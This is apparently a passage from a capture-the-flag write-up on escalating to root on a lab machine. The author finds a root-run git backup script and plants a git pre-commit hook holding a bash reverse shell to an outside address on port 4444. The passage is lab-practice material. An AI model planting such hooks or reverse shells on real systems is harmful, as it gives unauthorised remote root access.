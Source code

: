 It appeared that some script was committing any changes to the home folder in the repository. To find the script, I used `watch` and `ps` to try and see the running processes.

```
dev01@opensource:~$ touch test2
dev01@opensource:~$ watch -n 0.5 -d "ps aux | grep git"
```

I waited until the minute changed and saw the script doing the backup run.

![ps](/assets/images/2022/10/OpenSource/ps.png "ps")

The script `/usr/local/bin/git-sync` was being run by root. So if I could get it to run some custom code, I would be able to get root on the machine.

```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

The script did not do much. It checked for uncommitted changes in the repository. If it found any, it would add them to the index and commit them before pushing the changes. I did not have permission to modify the script. And there was no writable folder on the path that I could have used to replace which git executable was executed.

In git, it's possible to use [hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) to run some code when an action happens. I used the pre-commit hook to open a reverse shell whenever the script tried to commit changes to the repository.


```bash
dev01@opensource:~$ cat  .git/hooks/pre-commit
#!/bin/sh

bash -c 'bash -i >& /dev/tcp/10.10.14.143/4444 0>&1'
```
